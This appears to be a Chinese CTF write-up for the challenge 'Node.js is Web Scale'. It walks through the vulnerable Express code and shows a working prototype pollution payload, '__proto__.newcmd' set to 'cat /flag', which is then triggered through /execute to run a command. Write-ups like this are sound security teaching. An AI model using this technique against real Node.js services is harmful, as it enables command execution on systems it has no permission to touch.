 # Node.js is Web Scale

一个典型的 JavaScript 原型链污染漏洞。

预定义命令 `cmds`，`getsource` 用于显示源码，`test` 用于测试：

```javascript
let cmds = {
    getsource: "cat server.js",
    test: "echo 'hello, world!'",
};
```

使用对象实现键值存储：

```javascript
let store = {};
```

提供了四个 API：

- `GET /api/store`: 返回整个存储内容
- `POST /set`: 设置键值对，支持 `a.b.c` 格式嵌套的 key
- `GET /get`: 获取指定 key 的 value
- `GET /execute`: 执行预定义命令

重点关注 `/set` 里的代码处理逻辑：

```javascript
app.post("/set", (req, res) => {
    const {
        key,
        value
    } = req.body; // 从请求体获取 key 和 value

    const keys = key.split("."); // 将 key 按照 . 分割，支持多级属性
    let current = store;

    for (let i = 0; i < keys.length - 1; i++) {
        const key = keys[i];
        if (!current[key]) {
            current[key] = {}; // 如果中间节点不存在，创建空对象
        }
        current = current[key]; // 移动到下一层
    }

    current[keys[keys.length - 1]] = value; // 在最后一个 key 处设置 value

    res.json({
        message: "OK"
    });
});
```

当传入 `key=__proto__.newkey` 时：

- `current` 初始指向 `store`，一个空对象
- `current[__proto__]` 会访问对象的原型链上的 `Object.prototype` 对象
- `current[__proto__][newkey] = value` 会修改 Object.prototype，从而污染所有继承自该原型的对象

所以传入以下 Payload 时：

```http
POST /set HTTP/1.1
{
    "key": "__proto__.newcmd",
    "value": "cat /flag"
}
```

这会使 `newcmd` 属性被添加到 `Object.prototype` 上，因此所有以 `Object.prototype` 为原型的对象（包括 `cmds` 对象）都能通过原型链访问到这个属性。

于是可以通过 `/execute?cmd=newcmd` 来执行命令 `cat /flag`：

```http
GET /execute?cmd=newcmd HTTP/1.1
```
